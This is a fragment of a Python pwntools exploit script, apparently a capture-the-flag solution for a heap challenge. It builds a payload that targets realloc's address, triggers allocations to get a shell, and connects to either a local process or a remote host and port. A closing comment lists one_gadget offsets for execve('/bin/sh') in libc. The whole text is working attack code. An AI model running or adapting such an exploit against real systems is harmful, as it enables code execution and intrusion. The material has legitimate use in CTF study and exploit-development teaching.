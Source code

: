 ```python

	p += p64(realloc_addr + 20)
	p += '\n'
	ad(0x68, p)
	# get shell
	sl('1')
	sl('1')
	#db()

def finish():
	ia()
	c()

#--------------------------Main-----------------------------
if __name__ == '__main__':
	
	if LOCAL:
		exe = ELF(exeFile)
		if LIB:
			lib = ELF(libFile)
			io = exe.process(env = {"LD_PRELOAD" : libFile})
		else:
			io = exe.process()
	
	else:
		exe = ELF(exeFile)
		io = remote(remoteIp, remotePort)
		if LIB:
			lib = ELF(libFile)
	
	exploit()
	finish()

'''
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

'''
```

